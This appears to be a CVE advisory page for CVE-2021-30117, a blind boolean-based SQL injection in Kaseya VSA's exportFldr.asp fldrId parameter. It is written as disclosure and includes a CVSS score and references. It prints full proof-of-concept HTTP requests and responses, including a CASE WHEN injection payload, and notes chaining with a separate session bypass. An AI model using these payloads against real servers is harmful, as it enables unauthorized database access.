 # CVE-2021-30117

- Published: 2021-07-09T14:15:00

- Modified: 2022-04-29T18:59:00

The API call /InstallTab/exportFldr.asp is vulnerable to a semi-authenticated boolean-based blind SQL injection in the parameter fldrId. Detailed description --- Given the following request: ``` GET /InstallTab/exportFldr.asp?fldrId=1’ HTTP/1.1 Host: 192.168.1.194 User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate DNT: 1 Connection: close Upgrade-Insecure-Requests: 1 Cookie: ASPSESSIONIDCQACCQCA=MHBOFJHBCIPCJBFKEPEHEDMA; sessionId=30548861; agentguid=840997037507813; vsaUser=scopeId=3&roleId=2; webWindowId=59091519; ``` Where the sessionId cookie value has been obtained via CVE-2021-30116. The result should be a failure. Response: ``` HTTP/1.1 500 Internal Server Error Cache-Control: private Content-Type: text/html; Charset=Utf-8 Date: Thu, 01 Apr 2021 19:12:11 GMT Strict-Transport-Security: max-age=63072000; includeSubDomains Connection: close Content-Length: 881 <!DOCTYPE html> <HTML> <HEAD> <title>Whoops.</title> <meta http-equiv="X-UA-Compatible" content="IE=Edge" /> <link id="favIcon" rel="shortcut icon" href="/themes/default/images/favicon.ico?307447361"></link> ----SNIP---- ``` However when fldrId is set to ‘(SELECT (CASE WHEN (1=1) THEN 1 ELSE (SELECT 1 UNION SELECT 2) END))’ the request is allowed. Request: ``` GET /InstallTab/exportFldr.asp?fldrId=%28SELECT%20%28CASE%20WHEN%20%281%3D1%29%20THEN%201%20ELSE%20%28SELECT%201%20UNION%20SELECT%202%29%20END%29%29 HTTP/1.1 Host: 192.168.1.194 User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0 Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 Accept-Encoding: gzip, deflate DNT: 1 Connection: close Upgrade-Insecure-Requests: 1 Cookie: ASPSESSIONIDCQACCQCA=MHBOFJHBCIPCJBFKEPEHEDMA; sessionId=30548861; agentguid=840997037507813; vsaUser=scopeId=3&roleId=2; webWindowId=59091519; ``` Response: ``` HTTP/1.1 200 OK Cache-Control: private Content-Type: text/html; Charset=Utf-8 Date: Thu, 01 Apr 2021 17:33:53 GMT Strict-Transport-Security: max-age=63072000; includeSubDomains Connection: close Content-Length: 7960 <html> <head> <title>Export Folder</title> <style> ------ SNIP ----- ```

### CVSS Score: **6.5**

| authentication | complexity | vector |
| --- | --- | --- |
| SINGLE | LOW | NETWORK |

| confidentiality | integrity | availability |
| --- | --- | --- |
| PARTIAL | PARTIAL | PARTIAL |

## References

* https://csirt.divd.nl/2021/07/07/Kaseya-Limited-Disclosure/

* https://helpdesk.kaseya.com/hc/en-gb/articles/360019966738-9-5-6-Feature-Release-8-May-2021

<details>
<summary>About this repository</summary> 

  This repository is part of the project [Live Hack CVE](https://github.com/Live-Hack-CVE). Main website can be found [www.live-hack.org](https://www.live-hack.org) 
  
  Made by [Sn0wAlice](https://github.com/Sn0wAlice) for the people that care about security and need to have a feed of the latest CVEs. Hope you enjoy it, don't forget to star the repo and follow me on [Twitter](https://twitter.com/Sn0wAlice) and [Github](https://github.com/Sn0wAlice). And that is my [personnal website](https://www.alice-snow.me/)

  - [Home Page](https://github.com/Live-Hack-CVE)
  - [Framework](https://github.com/Live-Hack-CVE/cve-framework)
  - [CVE database](https://github.com/Live-Hack-CVE/full_database)
  - [Changelog](https://github.com/Live-Hack-CVE/Changelog)
</details>

## Brut File

* [CVE-2021-30117.json](https://raw.githubusercontent.com/Live-Hack-CVE/full_database/main/cves/2021/CVE-2021-30117.json)


